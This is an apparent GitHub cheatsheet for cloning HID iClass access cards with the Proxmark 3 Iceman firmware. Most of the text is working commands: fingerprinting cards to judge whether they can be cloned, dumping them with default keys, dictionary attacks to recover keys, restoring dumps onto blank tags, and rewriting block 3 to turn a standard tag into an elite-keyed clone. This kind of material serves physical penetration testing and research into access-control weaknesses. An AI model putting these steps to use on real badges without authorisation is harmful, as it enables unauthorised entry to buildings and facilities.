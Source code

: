 # HID iClass Cheatsheet
*Proxmark 3 Iceman fork*

---


### 🔍 Check Card Info
```bash
hf iclass info
```
- Look for **fingerprint**:
  - **Legacy** → cloneable
  - **Legacy Elite** → cloneable (most of the time) 
  - **SE** → try downgrade attack  
  - **SEOS** → not cloneable  

---

### 🔑 Elite vs standard 
Elite cards usually end at ```Card chip....``` and standard cards usually has extra block 7 decoder information.
- **Elite key output example**:  
  ![Elite iCLASS](./images/eliteiclass.png)

- **Non-elite key output example**:  
  ![Non-Elite iCLASS](./images/noneliteiclass.png)

---

### 📥 Dumping Cards
- Many legacy cards use **default keys**. Try dumping with:

**Standard**
```bash
hf iclass dump --ki <0,1,2,3>
```

**Elite**
```bash
hf iclass dump --ki <0,1,2,3> --elite
```

---

### 📂 Dictionary Attacks
If non-default keys are used, find keys using dictionary attack:

**Standard**
```bash
hf iclass chk -f iclass_default_keys.dic
```

**Elite**
```bash
hf iclass chk -f iclass_elite_keys.dic --elite
```

Once you have the right keys:
```bash
hf iclass dump -k <insert keys> #include --elite if elite keyed
```

### ✍️ Cloning
After finding keys on destination tag with dictionary attack or a test dump:
```bash
hf iclass restore -f <source tag dump file> --first 6 --last 18 --ki 0 #edit dump filename and --ki accordingly
```
In most cases, you only need to clone blocks 6 to 9 for the clone to work. 

If copying from elite cards to standard cards, upgrade standard card to elite by writing new key to block 3:
```bash
hf iclass calcnewkey --oki X --nki Y --elite #X = key of destination fob, Y = Key from target fob
hf iclass wrbl -b 3 -d <XOR key> --ki X #XOR Key from calcnewkey output
```



